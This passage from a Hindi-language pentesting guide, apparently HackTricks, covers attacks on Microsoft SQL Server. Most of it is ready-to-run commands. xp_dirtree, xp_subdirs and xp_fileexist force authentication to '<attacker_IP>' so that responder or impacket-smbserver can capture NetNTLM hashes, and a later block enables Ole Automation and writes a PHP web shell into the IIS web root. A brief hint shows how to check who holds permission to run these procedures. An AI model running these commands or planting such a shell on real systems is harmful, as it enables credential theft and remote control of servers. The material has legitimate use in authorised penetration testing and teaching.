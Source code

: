 आपको प्रमाणीकरण में उपयोग किए जाने वाले हैश को कैप्चर करने के लिए एक **SMB सर्वर** शुरू करना चाहिए (`impacket-smbserver` या `responder` उदाहरण के लिए)।
```bash
xp_dirtree '\\<attacker_IP>\any\thing'
exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
EXEC master..xp_subdirs '\\<attacker_IP>\anything\'
EXEC master..xp_fileexist '\\<attacker_IP>\anything\'

# Capture hash
sudo responder -I tun0
sudo impacket-smbserver share ./ -smb2support
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer
```
{% hint style="warning" %}
आप यह जांच सकते हैं कि कौन (sysadmins के अलावा) उन MSSQL फ़ंक्शनों को चलाने की अनुमति रखता है:
```sql
Use master;
EXEC sp_helprotect 'xp_dirtree';
EXEC sp_helprotect 'xp_subdirs';
EXEC sp_helprotect 'xp_fileexist';
```
{% endhint %}

**responder** या **Inveigh** जैसे टूल का उपयोग करके **NetNTLM हैश** को **चुराना** संभव है।\
आप इन टूल का उपयोग कैसे करें, यह देख सकते हैं:

{% content-ref url="../../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md" %}
[spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md](../../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md)
{% endcontent-ref %}

### MSSQL ट्रस्टेड लिंक का दुरुपयोग

[**इस पोस्ट को पढ़ें**](../../windows-hardening/active-directory-methodology/abusing-ad-mssql.md) **इस फीचर का दुरुपयोग कैसे करें, इसके बारे में अधिक जानकारी के लिए:**

{% content-ref url="../../windows-hardening/active-directory-methodology/abusing-ad-mssql.md" %}
[abusing-ad-mssql.md](../../windows-hardening/active-directory-methodology/abusing-ad-mssql.md)
{% endcontent-ref %}

### **फाइलें लिखें**

`MSSQL` का उपयोग करके फाइलें लिखने के लिए, हमें [**Ole Automation Procedures**](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option) को **सक्षम** करना होगा, जिसके लिए प्रशासनिक विशेषाधिकार की आवश्यकता होती है, और फिर फाइल बनाने के लिए कुछ स्टोर की गई प्रक्रियाओं को निष्पादित करना होगा:
```bash
# Enable Ole Automation Procedures
sp_configure 'show advanced options', 1
RECONFIGURE

sp_configure 'Ole Automation Procedures', 1
RECONFIGURE

# Create a File
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
```
### **फाइल पढ़ें** OPENROWSET के साथ

